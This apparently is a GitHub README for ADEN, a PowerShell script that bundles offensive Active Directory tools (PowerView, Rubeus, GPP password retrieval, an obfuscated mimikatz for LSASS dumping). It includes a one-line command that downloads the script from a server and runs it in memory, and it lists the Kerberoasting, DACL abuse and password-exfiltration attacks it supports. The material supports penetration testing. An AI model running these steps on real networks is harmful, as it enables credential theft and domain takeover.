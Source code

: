## What is this?
ADEN is a local enumeration script for active directory environments, it is a merge of several enumeration and exploitation projects:

- PowerView
- ASREPRoast
- Get-GPPPassword
- New-GPOImmediateTask
- Invoke-Rubeus


It is to be used as an all-in-one enumeration script to use when you are in a domain user's session. \
 \
An obfuscated version of mimikatz is included separately in order to dump LSASS: ```lsdmp.ps1```\
\
Big credits to all the authors of the above mentioned tools! You are awesome.

## How to use?
Once the script is loaded in-memory, the function ```Invoke-FullEnum``` will launch a full enumeration that will allow you to initially map the AD environment.

```powershell
iex(iwr -usebasicparsing http://[SERVER]/aden.ps1);Invoke-FullEnum
```
Keep in mind you also have access to all the functions of the above mentioned scripts. 

## What does it do?

ADEN currently supports the following attack scenarios:

- ASREPRoasting / Kerberoasting
- Delegation Abuse searching
- DACL Abuse
- Local Admin Access
- GPP / LAPS / LDAP Password exfiltration

It also enumerates the following, non-directly attack-correlated information:

- Current/Root Domain Info
- Current user memberships and privileges
- Kerberos and Password Policies
- Trust relationships
- Domain users, groups, computers, fileservers
